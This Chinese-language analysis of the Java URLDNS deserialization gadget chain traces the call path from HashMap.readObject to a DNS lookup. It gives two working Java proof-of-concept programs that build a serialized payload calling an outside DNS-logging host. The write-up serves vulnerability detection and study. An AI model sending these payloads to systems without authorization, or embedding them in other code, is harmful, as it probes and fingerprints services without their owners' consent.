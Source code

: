 # URLDNS利用链分析

## 前言

`URLDNS`是相对于其他利用链较为简单的一条`gadget`利用链，由于`URLDNS`不依赖与其他第三方库，且不限制`jdk`版本，所以常常用来检测程序是否存在反序列化漏洞。

`URLDNS`的特点：只能发送`DNS`请求，不能执行其他任何命令。

## 利用链分析

问题出在`HashMap`的`readObject()`方法中，我们看一下源码，在最后传进的`putVal()`方法中对`key`进行了`hash()`计算
![image-20220918225012617](images/image-20220918225012617.png)

跟进`hash()`方法，接着会调用传进来的`key`的`hashCode()`的方法
![image-20220918231235822](images/image-20220918231235822.png)

因为我们传进来的`key`是`URL`对象，因此接着跟进`URL`类的`hashCode()`方法，这里对`hackCode`参数的值进行了判断，需要满足等于`-1`的条件
![image-20220918231432956](images/image-20220918231432956.png)

继续跟进`hashCode = handler.hashCode(this);`中的`hashCode()`方法，该方法里面调用了`getHostAddress()`方法
![image-20220918231623683](images/image-20220918231623683.png)

继续跟进`getHostAddress()`方法，发现调用了`InetAddress.getByName(host);`方法
![image-20220918231719742](images/image-20220918231719742.png)

`InetAddress.getByName(host)`：只需要传入目标主机的名字，`InetAddress`会尝试做连接DNS服务器，并且获取IP地址的操作。

因此在此处发起了一次`DNS`请求，总结`URLDNS`利用链如下：
```
HashMap --> readObject()
HashMap --> putVal()
HashMap --> hash()
URL     --> hashCode()
URLStreamHandler --> hashCode()
URLStreamHandler --> getHostAddress()
InetAddress      --> InetAddress.getByName()
```

构造 POC 如下：
```java
package com.serialize;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

/**
 * Created by dotast on 2022/9/18 22:43
 */
public class URLDNS {
    public static void main(String[] args) throws Exception{
        URLDNS urldns = new URLDNS();
        urldns.serialize();
        urldns.unserialize();
    }

    public void serialize() throws Exception {
        HashMap map = new HashMap<>();
        URL url = new URL("http://c62a1767.dns.1433.eu.org");
        Class cls = Class.forName("java.net.URL");
        Field hashCode = cls.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        map.put(url, "dotast");
        hashCode.set(url, -1);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(map);
    }

    public void unserialize() throws Exception{
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }

}
```

成功发送了 DNS 请求
![image-20220918232949145](images/image-20220918232949145.png)

## 为什么发送了两次请求？

可以看到上图中的结果显示一共发送了两次请求，调试后发现`HashMap.put()`方法也会调用一次`putVal()`方法
![image-20220918233144243](images/image-20220918233144243.png)

为了规避实际环境中产生误判的情况，我们需要消除掉这一次多余的`DNS`请求。

我们在`put()`方法前先设置`hashCode`字段值不为`-1`就可以不进入`hashCode = handler.hashCode(this);`语句里，就可避免发送`DNS`请求。

最终 POC 如下：
```java
package com.serialize;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

/**
 * Created by dotast on 2022/9/18 22:43
 */
public class URLDNS {
    public static void main(String[] args) throws Exception{
        URLDNS urldns = new URLDNS();
        urldns.serialize();
        urldns.unserialize();
    }

    public void serialize() throws Exception {
        HashMap map = new HashMap<>();
        URL url = new URL("http://4b9cc854.dns.1433.eu.org");
        Class cls = Class.forName("java.net.URL");
        Field hashCode = cls.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url, 666);
        map.put(url, "dotast");
        hashCode.set(url, -1);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(map);
    }

    public void unserialize() throws Exception{
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }

}
```

![image-20220918233654716](images/image-20220918233654716.png)

